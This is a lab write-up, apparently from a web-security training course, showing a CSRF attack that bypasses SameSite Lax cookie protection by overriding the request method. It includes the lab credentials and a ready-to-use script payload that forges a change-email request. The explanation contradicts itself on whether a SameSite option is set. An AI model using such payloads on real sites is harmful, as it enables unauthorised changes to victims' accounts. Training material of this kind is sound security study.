




# SameSite Lax bypass via method override
# Objective
This lab's change email function is vulnerable to CSRF. \
To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
Website has `Change email` functionality which is not protected by `CSRF` token. There is `SameSite` option specified - Chrome enforces `Lax` by default.

||
|:--:| 
| *Test of change email functionality - CSRF token is not preset* |
||
| *Cookie configuration - no SameSite option specified* |

## CSRF Exploit
Changing request method and adding `_method=POST` parameter inn URL allows to send valid `Change email` request.

Exploit server configuration:
```
<script>
    document.location = "https://<id>.web-security-academy.net/my-account/change-email?email=attacker@attack.attack&_method=POST";
</script>
```

||
|:--:| 
| *Change email request via GET request* |
||
| *Exploit server configuration* |